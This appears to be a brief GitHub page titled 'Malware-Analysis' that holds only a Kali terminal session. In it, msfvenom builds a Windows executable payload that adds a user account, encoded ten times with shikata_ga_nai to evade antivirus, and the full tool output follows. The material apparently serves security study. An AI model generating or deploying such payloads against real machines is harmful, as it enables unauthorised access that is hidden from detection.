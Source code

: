 # Malware-Analysis

root@kali64:~# msfvenom -p windows/adduser user=testuser1 pass=Test@321 -e x86/shikata_ga_nai -i 10 -f exe -o ~/testadd10.exe  
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload  

[-] No arch selected, selecting arch: x86 from the payload  
Found 1 compatible encoders  
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai  
x86/shikata_ga_nai succeeded with size 303 (iteration=0)
x86/shikata_ga_nai succeeded with size 330 (iteration=1)
x86/shikata_ga_nai succeeded with size 357 (iteration=2)
x86/shikata_ga_nai succeeded with size 384 (iteration=3)
x86/shikata_ga_nai succeeded with size 411 (iteration=4)
x86/shikata_ga_nai succeeded with size 438 (iteration=5)
x86/shikata_ga_nai succeeded with size 465 (iteration=6)
x86/shikata_ga_nai succeeded with size 492 (iteration=7)
x86/shikata_ga_nai succeeded with size 519 (iteration=8)
x86/shikata_ga_nai succeeded with size 546 (iteration=9)
x86/shikata_ga_nai chosen with final size 546
Payload size: 546 bytes
Final size of exe file: 73802 bytes
Saved as: /root/testadd10.exe
root@kali64:~# 
